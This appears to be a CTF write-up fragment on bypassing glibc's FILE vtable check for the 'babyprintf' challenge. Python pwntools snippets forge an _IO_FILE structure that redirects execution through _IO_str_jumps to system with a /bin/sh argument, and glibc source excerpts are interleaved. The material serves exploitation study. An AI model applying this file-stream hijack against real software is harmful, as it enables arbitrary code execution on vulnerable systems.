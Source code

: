 ## bypass vtable
babyprintf shows a way to bypass vtable check.
Another way can be seen [here](http://blog.rh0gue.com/2017-12-31-34c3ctf-300/)

'''python
fake_file = p64(0) + p64(0x61) + p64(0xdeadbeef) + p64(io_list_all-0x10)
fake_file += p64(0xffffffffffffff) + p64(0)*3 + p64((binsh_addr-100)/2)
'''
_IO_size_t pos;
pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
    {
      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
        return EOF;
        ......
'''python
fake_file = fake_file.ljust(0xa0, "\x00")
fake_file += p64(libc_addr+8) #_IO_wide_data
'''
satisfied the second condition:
 if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
#endif
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
	result = EOF;
'''python
fake_file = fake_file.ljust(0xc0, '\x00')
fake_file += p64(1) #_mode
fake_file = fake_file.ljust(0xd8, '\x00')
fake_file += p64(io_str_jumps)
fake_file += p64(system_addr)
payload += fake_file
'''